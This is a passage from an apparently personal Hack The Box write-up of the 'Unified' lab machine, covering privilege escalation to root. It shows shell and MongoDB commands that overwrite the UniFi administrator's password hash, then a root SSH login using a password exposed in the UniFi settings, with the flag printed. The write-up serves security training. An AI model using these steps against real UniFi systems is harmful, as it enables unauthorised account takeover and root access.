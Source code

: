 >*SHA-512, or Secure Hash Algorithm 512, is a hashing algorithm used to convert text of any length into a fixed-size string. Each output produces a SHA-512 length of 512 bits (64 bytes). This algorithm is commonly used for email addresses hashing, password hashing...*

>*A salt is added to the hashing process to force their uniqueness, increase their complexity without increasing user requirements, and to mitigate password attacks like hash tables.*
>

	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.59]─[scrage@htb-boyi9vhoy8]─[~]
	└──╼ [★]$ mkpasswd -m sha-512 Password1234
	$6$nrfCJY5/2237v4Fm$JefFpA0omSKI.4jq04h.I7mHB8.GuAw5ASmZSFTnyye27AI0sDQNkvPbquytWcE4Qg5nPrie1yCJBBiJifOfz1

Now we can replace the existing hash with the one we've just created, using the `db.admin.update` function.

`mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})'`

	unifi@unified:/usr/lib/unifi$ mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$nrfCJY5/2237v4Fm$JefFpA0omSKI.4jq04h.I7mHB8.GuAw5ASmZSFTnyye27AI0sDQNkvPbquytWcE4Qg5nPrie1yCJBBiJifOfz1"}})'
	<yye27AI0sDQNkvPbquytWcE4Qg5nPrie1yCJBBiJifOfz1"}})'
	MongoDB shell version v3.6.3
	connecting to: mongodb://127.0.0.1:27117/ace
	MongoDB server version: 3.6.3
	WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })

It prompts us that 1 object in the database was modified. We can verify our change by running the previous command again to see the `administrator` user's `x_shadow` property value.

And now we can go back to the website and log in as `administrator` with our own password (username is case sensitive).

![[Pasted image 20241020142534.png]]

UniFi offers a setting for SSH Authentication, which is a functionality that allows you to administer other Access Points over SSH from a console or terminal.
We navigate to `settings -> site` and scroll down to find the SSH Authentication setting. SSH authentication with a root password has been enabled.

![[Pasted image 20241020142759.png]]

The page shows the root password in plain text: `NotACrackablePassword4U2022`.
Let's attempt to authenticate to the system as root over SSH.
`ssh root@10.129.96.149`

Once the connection is successful, we can find the root user flag right in front of us.

	root@unified:~# ls
	root.txt
	root@unified:~# cat root.txt
	e50bc93c75b634e4b272d2f771c33681

**Root flag exfiltrated:** `e50bc93c75b634e4b272d2f771c33681`



https://www.hackthebox.com/achievement/machine/2057492/441
![[Pasted image 20241020144149.png]]